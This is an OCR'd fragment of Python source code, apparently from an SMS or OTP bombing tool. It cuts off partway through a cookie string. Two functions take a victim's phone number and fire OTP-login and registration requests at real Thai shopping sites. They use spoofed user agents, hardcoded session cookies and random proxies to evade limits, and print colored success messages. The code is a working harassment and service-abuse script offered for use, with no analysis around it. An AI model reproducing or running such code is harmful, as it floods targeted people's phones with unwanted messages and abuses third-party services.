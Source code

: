 
def api17(phone):
  da = datetime.datetime.now()
  ok = da.strftime("%H:%M:%S")
  r = requests.post(
      "https://www.kaitorasap.co.th/api/index.php/send-otp-login/",
      headers={
          "Accept":
          "application/json, text/javascript, */*; q=0.01",
          "Content-Type":
          "application/x-www-form-urlencoded; charset=UTF-8",
          "X-Requested-With":
          "XMLHttpRequest",
          "User-Agent":
          "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36",
          "Cookie":
          "PHPSESSID=080ugg4928ulkhj6kaggiqkvd1; _ga=GA1.3.1856390916.1657557339; _gid=GA1.3.1103002458.1657557339; _gat_gtag_UA_141105037_1=1; G_ENABLED_IDPS=google"
      },
      data=f"phone_number={phone}&lag=",
      proxies={'http': 'http://' + random.choice(s)})
  if r.status_code == 200 or r.status_code == 201:
    print(
        f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}"
    )
  else:
    print(
        f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}"
    )


def api18(phone):
  da = datetime.datetime.now()
  ok = da.strftime("%H:%M:%S")
  r = requests.get(
      f'https://www.konvy.com/ajax/system.php?type=reg&action=get_phone_code&phone={phone}',
      headers={
          "accept":
          "application/json, text/javascript, */*; q=0.01",
          "x-requested-with":
          "XMLHttpRequest",
          "user-agent":
          generate_user_agent(),
          "cookie":
          "referer=https%3A%2F%2Fwww.konvy.com%2Fm%2F;PHPSESSID=vnqlo8v638jofnb15arplijj3i;k_privacy_state=true;referer=https%3A%2F%2Fwww.konvy.com%2Fm%2Flogin.php;_gcl_au=1.1.531291202.1661272286;_fbp=fb.1.1661272286002.265391910;_gid=GA1.2.960487052.1661272286;_gat_UA-28072727-2=1;_tt_enable_cookie=1;_ttp=d640ab77-0c
